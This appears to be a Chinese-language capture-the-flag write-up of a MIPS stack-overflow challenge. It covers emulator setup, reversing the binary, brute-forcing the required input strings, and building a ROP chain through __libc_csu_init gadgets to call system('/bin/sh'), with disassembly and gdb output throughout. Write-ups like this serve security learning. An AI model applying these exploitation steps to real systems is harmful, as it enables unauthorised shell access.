

## start
调试`mips`就首先要有个`mips`的环境，推荐[mips qcow2](https://people.debian.org/~aurel32/qemu/mips)

下载完成后用`qemu mips`起，`apt-get`安装好需要的相关工具
```bash
#!/bin/bash
qemu-system-mips -M malta \
    -kernel vmlinux-3.2.0-4-4kc-malta \
    -hda debian_wheezy_mips_standard.qcow2 \
    -append "root=/dev/sda1 console=tty0" \
    -netdev user,id=net0 \
    -device e1000,netdev=net0,id=net0,mac=52:54:00:c9:18:27 \
    -net user -redir tcp:2222::22 -redir tcp:22333::22333 -redir tcp:1234::1234
```

## 基础知识
查阅相关资料可以得知，`mips`寄存器作用，和函数调用时候的一些信息。

- `a0-a3`: 存储参数
- `fp`: `fram pointer`，用来恢复栈之类的操作，可以理解为和`ebp`差不多的作用
- `sp`: 存储栈地址
- `v0...`: 存储一些变量或地址
- `t8,t9`: 临时寄存器，`t9`常常用来调用函数。如`alarm`的`plt`调用如下
```Assembly
.plt:00400820                   alarm:
.plt:00400820 3C 0F 00 41                       lui     $t7, 0x41  # 'A'
.plt:00400824 8D F9 14 44                       lw      $t9, off_411444
.plt:00400828 03 20 00 08                       jr      $t9
.plt:0040082C 25 F8 14 44                       addiu   $t8, $t7, (off_411444 - 0x410000)
```
需要主要的是`jr, jalr`等跳转指令有个特点

它会先执行跳转指令的后一条指令，然后再跳转。

## reverse
程序关键的地方在`0x400C30`，其他地方的话过一下就清楚是干什么的。
### check
对程序进行分析，首先`checksec`，最好用`mips`环境的`gdb`来查看，`x86`的`gdb`看会有些问题
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```
开了`NX`，`libc`库也是随机加载的。

### vuln
漏洞点很容易发现，在`0x400FF8`，往栈上读了`0x400`字节，但实际上缓冲区没这么大。
```Assembly
.text:00400C30 var_3C          = -0x3C
.text:00400C30 var_38          = -0x38
.text:00400C30 var_34          = -0x34
.text:00400C30 var_30          = -0x30
.text:00400C30 var_14          = -0x14
.text:00400C30 var_10          = -0x10
.text:00400C30 var_C           = -0xC
.text:00400C30 var_8           = -8
; ....
.text:00400FEC                 addiu   $v0, $fp, 0xD8+var_30
.text:00400FF0                 move    $a0, $v0
.text:00400FF4                 li      $a1, 0x400
.text:00400FF8                 jal     readn_400B38
.text:00400FFC                 move    $at, $at
```
> `readn_400B38`是一个字节一个字节的读，读到回车或者到了`0x400-1`就返回。

### 逻辑
漏洞很好找，那么我们就需要到达漏洞点。

`0x400C30`中逻辑如下：
1. 栈上一片缓冲区初始化为`0x401364`等地方的字符串，计为`alph0`。(`We, are`等)
2. 循环8次，每次随机选`alph0[len(alph0)/2:]`和`alph0[:len(alph0)/2]`两个部分的一个串交换。
3. 又一个循环，每次将我们的输入字符串和`alph0[i]`比较(每次都比较到我们输对了为止)
4. 计算`3`所用时间是不是小于`3s`，如果成立，就让我们到达漏洞点输入`0x400`

### 爆破
关于如何输对字符串，我们可以调试看看字符串变成什么样子，然后爆破，通过测试，字符串序列可以如下：
```Python
guesslist = ["nomal", "arch", "bcz", "W3Are", "We", "are", "grad", "from"]
for c in range(11, 0x100):
    guesslist.append("hakker"+chr(c)+"h")
for c in range(22, 0x100):
    guesslist.append("hakker"+chr(c)+"d")
```
## rop
由于对`mips`不熟悉，在这里卡了挺久。

### without libc

#### sigh
开始看到`0x400A9C`的`system("/bin/sh")`很高兴，但是地址是带`\x0A`，不能直接跳过去。

所以就要设置参数`a0`为`"/bin/sh"`，然后跳到`system`，但是`MIPS`的`rop`没有直接能设置参数的
> 如`0x00401208: move $a0, $s3; move $a1, $s4; jalr $t9;`，要设置`t9`，但是并没有合适的`gadget`。

#### oh

```Assembly
.text:00401200                 lw      $t9, 0($s1)
.text:00401204                 addiu   $s0, 1
.text:00401208                 move    $a0, $s3
.text:0040120C                 move    $a1, $s4
.text:00401210                 jalr    $t9
.text:00401214                 move    $a2, $s5
.text:00401218                 sltu    $v0, $s0, $s2
.text:0040121C                 bnez    $v0, loc_401200
.text:00401220                 addiu   $s1, 4
.text:00401224
.text:00401224 loc_401224:                              # CODE XREF: __libc_csu_init+60↑j
.text:00401224                 lw      $ra, 0x38+var_4($sp)
.text:00401228                 lw      $s5, 0x38+var_8($sp)
.text:0040122C                 lw      $s4, 0x38+var_C($sp)
.text:00401230                 lw      $s3, 0x38+var_10($sp)
.text:00401234                 lw      $s2, 0x38+var_14($sp)
.text:00401238                 lw      $s1, 0x38+var_18($sp)
.text:0040123C                 lw      $s0, 0x38+var_1C($sp)
.text:00401240                 jr      $ra
.text:00401244                 addiu   $sp, 0x38
```
`__libc_csu_init+60`里面直接设置好参数，然后跳转到`0x00401200`，然后`jalr $t9`调用`system@got`。

然而，实际上会发现，`jalr $t9`之后并没有进真实到`system`，调的是`read`。
```
Breakpoint 3, 0x77f860f4 in ?? () from /lib/ld.so.1
gdb-peda$ x/10i $pc
=> 0x77f860f4:	jr	t9
gdb-peda$ x/4i $t9
   0x77ec9bf8 <read>:	lui	gp,0xa
   0x77ec9bfc <read+4>:	addiu	gp,gp,23928
   0x77ec9c00 <read+8>:	addu	gp,gp,t9
   0x77ec9c04 <read+12>:	0x7c03e83b
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  f0000000 77ec9bf8 00000000 00000000 77fa7000 7fd7f0f8 00411420 00401218
```
了解`libc`库函数加载的都知道第一次掉没有调的函数前会有`ld`链接的操作，最后再跳到真正的`libc`地址。

我们看看`system@plt`
```
.plt:00400840                 lui     $t7, 0x41  # 'A'
.plt:00400844                 lw      $t9, off_41144C
.plt:00400848                 jr      $t9
.plt:0040084C                 addiu   $t8, $t7, (off_41144C - 0x410000)
```
刚开始不是很理解我们`jalr $t9`调用`*system@got`和这里有什么区别

但是仔细理解`jr`指令就发现`system@plt`是先`addiu   $t8, $t7, (off_41144C - 0x410000)`，再跳转，`t8`之后用来计算出真正的`system`偏移。

而在我们`jalr $t9`调`*system@got`时，`t8`是`0x411430`，就是`read@got`。

那么我们要调用`system`，要么设置好`t8`再跳`*system@got`，要么直接跳`system@plt`。由于`mips`的`gadget`不像`x86`那么随意，还是跳`system@plt`比较容易。

#### trick

`.text:00401210   jalr    $t9` 之后还有一个`gadget`，我们很容易使得`.text:00401240     jr      $ra`的`$ra`为`system@plt`，接下来就是参数。

其实我们可以发现，`jalr $t9`调用之后，`a0`是不变的，因为函数的返回值存在`v0,v1`里面。

所以我们可以直接在栈上再布好`gadget`
1. `0x00401224`设置好`s0-s5`
2. `0x00401200`配好函数参数调用假的`system`，之后`a0`还是指向我们设置到值
3. 程序往下走到`0x00401224`，设置`$ra`到`plt@system`，调用真正的`system`

## Summary

包了个`mips`的栈溢出，其实不难，但是比赛的时候不熟悉，环境也没有，赛后查指令做了一天。。
